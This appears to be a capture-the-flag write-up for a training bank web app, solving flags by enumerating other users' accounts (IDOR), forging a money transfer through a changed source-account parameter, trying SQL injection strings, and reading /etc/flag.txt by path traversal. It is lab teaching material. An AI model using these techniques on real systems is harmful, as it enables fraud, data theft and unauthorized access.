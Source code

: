 # Bazaare Bank Web App

## Challenge 

	Bazaare Bank - CTF by MWR
	Hack a bank and become a millionaire

	In this challenge you will target the customer portal of the Bazaare Bank, a world leading financial institution.

	Analyse the website and try to achieve the following tasks:

	Flag 1: What's the number (not the ID) of the bank account that contains more than £1,000,000? (the first one you find will do)

	Flag 2: Make a fraudulent money transfer to your account so that your balance is more than £1,000,000.

	Flag 3: Use SQL Injection to extract April.Rowland's password from the database.

	Flag 4: Your last flag is stored in /etc/flag.txt on the application server.

	Enjoy!

---

## Flag 1 Solution


The server is at http://192.168.0.100:8080/

Register for an account and login.

Now we notice that there are a few services

![screenshot/ss1.png](screenshot/ss1.png)

If we create a new account on the account page, we can see our account details

The account details URL will be similar to this:

- http://192.168.0.100/Accounts/Details?id=102

Realise that we can change the ID and view other people's accounts

We can do a simple Python script to do a for-loop GET requests of different 'id's..

I noticed there is an error using CURL or Python to make requests.

	$ python3 flag1.py | html2text
	****** HTTP Status 500 - javax.servlet.ServletException:
	javax.servlet.jsp.JspException: In &lt;parseNumber&gt;, a parse locale can not
	be established ******
	type Exception report
	message javax.servlet.ServletException:_javax.servlet.jsp.JspException:_In
	&lt;parseNumber&gt;,_a_parse_locale_can_not_be_established
	description The_server_encountered_an_internal_error_that_prevented_it_from
	fulfilling_this_request.
	exception
	...

The solution is found here, https://stackoverflow.com/a/41963708. We must add a language header

	Accept-Language: en-GB

And then we can do the for-loop

And we see the script output at id = 88.

	...
	86 70.51
	87 81.29
	88 9000000.0
	89 32.39
	90 76.56
	...

Upon loading the page, we get the flag at http://192.168.0.100/Accounts/Details?id=88

	Account details for account: 93223734
	Actions : Close account | Generate Summary
	Account Type
		Debit
	Account Number
		93223734
	Account Sort Code
		044654
	Status
		Active
	Balance
		£9000000.0

> Flag 1: 93223734

## Flag 2 Solution

Description

> Your task is to make a fraudulent money transfer to your account so that your balance is more than £1,000,000.

> After you've achieved this, when you refresh your Accounts summary page (the one you access from the menu Bank -> Accounts), you should see your flag.

My initial idea was to create new accounts which has a free $10 upon signup, and then transfer it over.

	//url
	http://192.168.0.100/Accounts/New

	//cookies
	fsr.a	1553322564589
	fsr.s	{"v":1}
	JSESSIONID	4023F620CF10AAC6B3FA4905BD05FAAF

	//request
	Request URL:http://192.168.0.100/Accounts/New
	Request method:POST
	Remote address:192.168.0.100:80

	//param
	'accountType':'0'

However, it takes too long and also notice that the sending of money is not verified.

First, we get our account info

	Account Number
	76691775

	Account Sort Code
	930747

As I said, the source account id can simply be changed to id = 88 where we found from Flag 1 solution.

	// POST parameters
	"PaymentType": "0"
	"SourceAccountId": "88" 				# set as flag1 account
	"RecipientAccountNumber": "76691775" 	# set as our account
	"RecipientAccountSortCode: "930747" 	# set as our account
	"Amount": "9000000.0"
	"Interval" : ""
	"SendDate": "Immediately"
	"Reference": ""
	"csrf-token": ""
	"SubmitType": "submit"

And after submitting, we refresh the page

	Wow, you're rich now! Here's your flag: 3a263d1e-1020-4bc6-ba89-d3b56a1bd14f 

> Flag 2: 3a263d1e-1020-4bc6-ba89-d3b56a1bd14f 

## Flag 3 Solution

Description

> Use SQL Injection to extract April.Rowland's password from the database.

Not solved

	April.Rowland
	\' OR password like '%'--
	1 = 1--

	http://192.168.0.100:8080/Reset?token=c2FnaXR0aXMuZmVsaXNAbnVuY2ludGVyZHVtLmNh
	sagittis.felis@nuncinterdum.ca

No flag :(


## Flag 4 Solution

Back to the account info, we see that we can do a `Generate Summary`.

![screenshot/ss2.png](screenshot/ss2.png)

There is a weird experimental file manager

![screenshot/ss3.png](screenshot/ss3.png)

	Direct Link:  http://192.168.0.100/Accounts/Summary?id=2
	File Manager: http://192.168.0.100/ResourceController?id=GeneratedReports/2.pdf

We realise the file manager is vulnerable to path traversal

Flag is at `/etc/flag.txt` so go to this link

http://192.168.0.100/ResourceController?id=../../../../../../etc/flag.txt

	Well done! The value of this flag is the word 'perseverance'.

> Flag 4: perseverance
